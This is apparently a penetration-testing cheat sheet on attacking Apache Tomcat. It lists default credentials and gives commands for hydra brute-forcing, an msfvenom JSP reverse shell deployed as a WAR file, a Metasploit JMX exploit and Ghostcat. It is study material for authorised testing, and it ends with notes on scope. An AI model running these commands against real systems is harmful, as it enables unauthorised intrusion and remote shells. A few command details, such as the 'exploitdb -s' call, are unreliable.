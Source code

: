## 1. Tomcat Version Detection

### Methods:

- **HTTP Server Header:**
    
    ```bash
    curl -I http://target:port/ | grep -i "Server"
    ```
    
    - Check if the "Server" header reveals the Tomcat version.
- **/docs Page:**
    
    ```bash
    curl -s http://target:port/docs/ | grep -i "Apache Tomcat"
    ```
    
    - Default documentation page may disclose the version.
- **Error Pages:**
    
    ```bash
    curl -s http://target:port/nonexistentpage
    ```
    
    - Sometimes, error pages leak version information.
- **Specific File Checks:**
    
    - If access is gained, check JAR files in `/lib` directory.
    - Version-specific vulnerabilities may relate to these files.

---

## 2. Tomcat Directory Structure (Key Files)

- **/bin** - Executable scripts.
- **/conf/tomcat-users.xml** - Stores user credentials and roles.
- **/conf/web.xml** - Defines web application routes and configurations.
- **/webapps/** - Web application deployment directory.

---

## 3. Manager Application Enumeration

### Directory Brute-forcing:

- **Using Gobuster:**
    
    ```bash
    gobuster dir -u http://target:port/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```
    
- **Using Wfuzz:**
    
    ```bash
    wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://target:port/FUZZ
    ```
    
- Look for `/manager` and `/host-manager` paths.

### Authentication Checks:

- **Default Credentials:**
    
    ```bash
    tomcat:tomcat
    admin:admin
    tomcat:password
    role1:role1
    role:changeme
    ```
    
- **Brute-forcing Credentials:**
    
    ```bash
    hydra -l tomcat -P /usr/share/wordlists/rockyou.txt target http-get /manager/html
    ```
    
- If access is gained, check for application deployment, undeployment, and management functionalities.

---

## 4. Tomcat Credential Enumeration

### tomcat-users.xml Enumeration:

- **Local File Inclusion (LFI) to read credentials:**
    
    ```bash
    cat /conf/tomcat-users.xml
    ```
    
- Check for plaintext usernames and passwords.

### web.xml Enumeration:

- **Identify application endpoints:**
    
    ```bash
    cat /webapps/[app]/WEB-INF/web.xml
    ```
    
- Useful for mapping application routes and identifying potential attack vectors.

---

## 5. WAR File Upload (Remote Code Execution)

- **After authentication to /manager:**
    - Upload a malicious WAR file containing a JSP web shell.
- **Create JSP reverse shell:**
    
    ```bash
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=yourIP LPORT=yourPort -f war > shell.war
    ```
    
- **Deploy via Manager interface and access via browser:**
    
    ```bash
    http://target:port/shell.jsp
    ```
    

---

## 6. JMX Enumeration & Exploitation

### Using jmxterm:

```bash
java -jar jmxterm-1.0-alpha-4-uber.jar --url service:jmx:rmi:///jndi/rmi://target:port/jmxrmi
```

- Explore MBeans and their attributes/operations.

### Using Metasploit:

```bash
use exploit/multi/misc/java_jmx_server
set RHOST target
set RPORT 1099
run
```

- JMX can expose sensitive information and allow for RCE.

---

## 7. Connector Enumeration

### AJP Connector:

- **Check if AJP is enabled (Default: Port 8009):**
    
    ```bash
    nmap -p 8009 --script ajp-headers target
    ```
    
- **Exploit AJP using Ghostcat (CVE-2020-1938):**
    
    ```bash
    python3 ghostcat.py -u target:8009
    ```
    
- AJP misconfigurations can lead to sensitive file disclosure or code execution.

---

## 8. Web Application Enumeration

### Directory & File Enumeration:

- **Enumerate web applications in `/webapps/` directory:**
    
    ```bash
    gobuster dir -u http://target:port/webapps/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```
    
- **Find JSP files and servlets:**
    
    ```bash
    wfuzz -c -z file,/usr/share/wordlists/extensions_common.txt --hc 404 http://target:port/FUZZ.jsp
    ```
    

### Parameter Fuzzing:

- **Fuzz application parameters for vulnerabilities:**
    
    ```bash
    ffuf -u http://target:port/index.php?FUZZ=value -w /usr/share/wordlists/parameters.txt
    ```
    

---

## 9. Configuration File Enumeration

- **Identify sensitive configuration files:**
    - `catalina.properties`
    - `server.xml`
    - `context.xml`
- **Extract credentials, ports, and security settings.**

---

## 10. CVE Enumeration & Exploitation

- **Identify version-specific vulnerabilities:**
    
    ```bash
    searchsploit tomcat [version]
    ```
    
- **Public exploits for Tomcat:**
    
    ```bash
    exploitdb -s tomcat
    ```
    

---

## Important Considerations

- **Least Privilege:** Use minimal required privileges during enumeration.
- **Target Scope:** Stay within the defined scope of the penetration test.
- **Documentation:** Record all findings and methodologies.
- **Client Communication:** Keep the client informed of critical discoveries.
- **Clean Up:** Remove temporary files and restore original configurations if testing in an authorized environment.

---

## Summary of Key Findings

- **Server Header & Docs:** Identify Tomcat version.
- **tomcat-users.xml:** Extract credentials and roles.
- **web.xml:** Map routes and servlets.
- **/manager & /host-manager:** Manage applications.
- **WAR File Upload:** Achieve RCE.
- **JMX Exposure:** Possible RCE and data leaks.
- **AJP Connector:** Check for misconfigurations.
- **Common CVEs:** Search for known exploits.

